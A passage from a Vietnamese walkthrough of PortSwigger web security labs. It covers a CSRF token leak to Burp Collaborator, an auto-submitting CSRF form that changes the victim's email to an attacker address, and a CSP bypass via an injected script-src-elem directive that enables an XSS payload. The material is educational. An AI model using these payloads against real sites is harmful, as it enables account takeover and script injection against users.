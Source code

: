 ```
Đoạn script trên đầu tiên sẽ chuyển hướng người dùng đến trang `/my-account`, với tham số email như trên. Sau đó khi người dùng click "Click me", sẽ chuyển hướng đến exploit server và gửi csrf token về cho Burp Collaborator Server.

Vào kiểm tra Burp Collaborator Client, ta thu được csrf token của nạn nhân: `gtzFzhT14qcpDa5owXuxbfOtWCJ4cZAV`

![image](https://user-images.githubusercontent.com/103978452/210034379-96abda98-2382-42e3-a7f2-2ca5a8713ae7.png)

Vào exploit server, cấu hình lại đoạn code sau để thực hiện csrf attack, đổi email của nạn nhân:

```
<form id=form method=POST action="https://0aab008703b2f0a4c051a494005f0030.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="gtzFzhT14qcpDa5owXuxbfOtWCJ4cZAV">
</form>

<script>form.submit()</script>
```

Sau khi submit, bài lab được giải thành công.

# 30. Reflected XSS protected by CSP, with CSP bypass
Ta thấy website có lỗ hổng XSS trong chức năng search, và trong CSP có directive `report-uri /csp-report?token=`

![image](https://user-images.githubusercontent.com/103978452/210028017-4c9ae655-db58-48d6-8a2d-1ca26c6c712f.png)

Ta thử thêm vào URL query string `?token=abc` thì directive report-uri trong CSP trở thành `/csp-report?token=abc`. Như vậy ta có thể inject input vào trong CSP. Trong CSP có directive `script-src 'self'` để ngăn execute inline script, tuy nhiên ta có thể ghi đè bằng cách sử dụng directive `script-src-elem`. Thử thay đổi `token=%3Bscript-src-elem+%27unsafe-inline%27`, kết quả `script-src-elem` đã được thêm vào CSP:

![image](https://user-images.githubusercontent.com/103978452/210028194-4027abce-b698-4403-9b52-79d3d107fc11.png)

Ta truy cập `<my-lab>/?token=%3Bscript-src-elem+%27unsafe-inline%27&search=%3Cscript%3Ealert(1)%3C/script%3E`, kết quả lệnh alert đã được thực thi thành công, bài lab được giải.
